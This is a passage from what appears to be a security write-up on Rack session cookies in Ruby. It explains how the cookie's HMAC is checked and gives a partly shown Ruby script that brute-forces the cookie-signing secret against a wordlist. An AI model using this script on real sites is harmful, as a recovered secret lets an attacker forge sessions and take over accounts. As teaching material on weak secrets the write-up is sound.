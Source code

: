 It splits the cookie at the `--` delimiter, with the cookie value (left paft) containing 
the session data as we've seen. The right value is the digest, I.E. the HMAC that was 
generated using the `session_data` and the secret key. rack will then set the 
`session_data` to nothing unless the digests match. 

![decode-cookie](/assets/images/posts/rcci/rack-cookie-src4.png)

![decode-cookie](/assets/images/posts/rcci/rack-cookie-src5.png)

We can use this validation process to brute force the secret key by using source code of the rack library to check against a valid cookie with a dictionary of words. Since the server returned to us a cookie, by definition it is valid so we'll use that for our script.

```ruby
require 'uri'
require 'openssl'

# Copied from https://github.com/rack/rack/lib/rack/session/cookie.rb
def generate_hmac(data, secret)
    OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret, data)
end

def find_secret(cookie, words)

    data, signature = cookie.split('--', 2)

    data = URI.decode(data)

    for word in words
        if generate_hmac(data, word) == signature
            return word
        end
    end
    return nil
end

def main

    if ARGV.length != 2
        puts('usage: find-secret <cookie> <wordlist>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)
    words   = IO.readlines(ARGV[1], chomp: true)
```